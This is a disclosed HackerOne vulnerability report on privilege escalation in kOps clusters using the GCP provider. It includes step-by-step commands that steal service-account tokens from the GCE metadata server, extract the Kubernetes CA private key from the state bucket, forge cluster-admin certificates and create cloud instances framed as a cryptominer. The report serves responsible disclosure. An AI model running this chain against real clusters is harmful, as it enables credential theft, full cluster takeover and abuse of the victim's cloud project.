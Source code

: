 # Privilege Escalation in kOps using GCE/GCP Provider

## Report Details
- **Report ID**: 1842829
- **URL**: https://hackerone.com/reports/1842829
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-01-22T00:39:36.189Z
- **Disclosed**: 2023-08-04T19:24:50.539Z

## Reporter
- **Username**: jpts
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: kubernetes

## Vulnerability Information
## Summary:
When using kOps with the GCP provider, it is possible for a user with shell access to any pod, to escalate their privileges to cluster admin. During provisioning of the cluster, kOps gives all nodes access to the state storage bucket through the service account associated with the instance. Any user with shell access can request the service account credentials, and read sensitive information from the state store. Using this information, the user can privesc to cluster admin, compromising the entire cluster. It is further possible to compromise a privileged GCP service account associated with the control-plane nodes and takeover other resources in the GCP project.

## Kubernetes Version:
Kubernetes: v1.25.5

## Component Version:
kOps: v1.25.3

## Steps To Reproduce:
### Cluster Setup:

The test cluster was setup as close to the [getting started](https://kops.sigs.k8s.io/getting_started/gce/) guide as possible.
```bash
export KOPS_STATE_STORE=gs://kops-state-test/
export PROJECT=`gcloud config get-value project`

gsutil mb $KOPS_STATE_STORE
kops create cluster kops.k8s.local --zones europe-west1-b --state ${KOPS_STATE_STORE} --project=$PROJECT --master-size=n1-standard-2 --node-size=n1-standard-2
kops update cluster --name kops.k8s.local --yes --admin
kops validate cluster --wait 10m
```
### Privesc
  1. Add a demo container in which user is allow shell access (manifest attached):
  `k apply -f shell.yaml`
  2. Give ourselves a shell:
  `k exec -it shell-5d64dd647c-8l8s6 -it -- ash`
  3. Grab the service account token and state bucket name
  ```
  pod$ wget --header 'Metadata-Flavor: Google' http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token -O default.token
  pod$ wget --header 'Metadata-Flavor: Google' http://metadata.google.internal/computeMetadata/v1/instance/attributes/startup-script -O- | grep ConfigBase
  ```
  4. Copy file back to the host
  ```
  k cp shell-5d64dd647c-8l8s6:/default.token default.token
  ```
  5.  Ensure normal gcloud auth not in use and set token environment var
  ```
  gcloud auth revoke
  export CLOUDSDK_AUTH_ACCESS_TOKEN=$(jq .access_token -r ./default.token)
  ```
  6. Grab the kubernetes CA keys
  ```
  mkdir -p keys
  gcloud storage cat gs://kops-state-test/kops.k8s.local/pki/private/kubernetes-ca/keyset.yaml | yq e '.spec.keys[0].privateMaterial' - | base64 -d > keys/ca.key
  gcloud storage cat gs://kops-state-test/kops.k8s.local/pki/private/kubernetes-ca/keyset.yaml | yq e '.spec.keys[0].publicMaterial' - | base64 -d > keys/ca.pem
  ```
  7. Generate system:masters cert (csr.json template attached)
  ```
  cd keys
  cfssl gencert -ca=ca.pem -ca-key=ca.key -profile=kubernetes csr.json | cfssljson -bare user
  ```
  8. Construct new kubeconfig
  ```
  export KUBECONFIG=./pwn.kconfig
  k config set-credentials pwn --client-certificate=user.pem --client-key=user-key.pem
  k config set-cluster kops --certificate-authority=ca.pem --server=https://<kops-ip>
  k config set-context pwn@kops --cluster=kops --user=pwn
  k config use-context pwn@kops
  ```
  9. Check we are cluster-admin
  `k auth can-i '*' '*' -A`
  10. Deploy a pod on the master node (example manifest included), make sure to edit to the correct node name
  `k apply -f shell-master.yaml`
  11. Give ourselves a shell:
  `k exec -it shell-78d66f6f7c-ft7ch -it -- ash`
  12. Grab the privileged GCP service account token
  ```
  pod$ wget --header 'Metadata-Flavor: Google' http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token -O admin.token
  ```
 13. Copy the token back to our host
  ```
  k cp shell-78d66f6f7c-ft7ch:/admin.token admin.token
  ```
  14. Set our credentials
  ```
  export CLOUDSDK_AUTH_ACCESS_TOKEN=$(jq .access_token -r ./admin.token)
  ```
  15. Run a cryptominer ....
  ```
  gcloud compute instances create miner --image-family=ubuntu-2204-lts --zone=europe-west1-b --image-project=ubuntu-os-cloud
  ```

## Supporting Material/References:
  * shell.yaml - basic alpine deployment to simulator a user with shell access
  * shell-master.yaml - similar simple deployment, targeting a master node
  * csr.json - used to configure cfssl to generate the malicious system:masters mTLS certs
  * auth-can-i.png - proof we have cluster admin
  * miner.png - proof we can spin up arbitrary instances
  * [Kubernetes Engine Service Agent Role](https://cloud.google.com/iam/docs/understanding-roles#container.serviceAgent)

## Tools used
 * https://github.com/cloudflare/cfssl
 * https://github.com/mikefarah/yq

## Impact

Once the attacker has compromised the cluster, they have access to all cluster resources. This includes any secrets/data stored by the cluster and also any secrets/data that is accessible by any GCP service accounts in use by the cluster. As the attacker is able to compromise the cluster, they can compromise the master nodes. In GCE kOps, the master node service accounts have the "Kubernetes Engine Service Agent" role, which is highly permissive, and would likely allow the compromise of other resources in the GCP project. Since the role has compute create permissions, it could also be abused for  attacks such as crypto-mining.

## Attachments
- auth-can-i.png
- shell.yaml
- csr.json
- miner.png
- shell-master.yaml
